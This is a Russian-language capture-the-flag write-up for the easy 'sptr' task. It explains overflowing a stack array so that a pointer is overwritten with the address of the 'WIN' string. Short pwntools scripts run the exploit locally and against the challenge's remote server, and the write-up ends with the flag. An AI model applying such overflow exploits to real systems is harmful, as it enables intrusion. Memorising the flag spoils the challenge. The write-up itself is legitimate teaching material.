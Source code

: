 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Найдем адрес, указывающий на строку `WIN`. Обратим внимание на данный код: <br />

![image](https://github.com/user-attachments/assets/6c95d6e3-22c6-464e-9063-f1164cc14087)

Регистр `RDI` кладется первый аргумент, который представляет из себя строчку `NO WIN`. В регистр `RSI` пойдет второй аргумент, который адресом указывающий на строчку `WIN`. 
Нажмем на `DAT_00402058` и узнаем адрес: <br />

![image](https://github.com/user-attachments/assets/bdc1b672-2b91-4d87-9ff9-1ef5bbf7bc38)

Это можно сделать разными способами, но я предпочитаю использовать библеотеку `pwntools`.
Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`
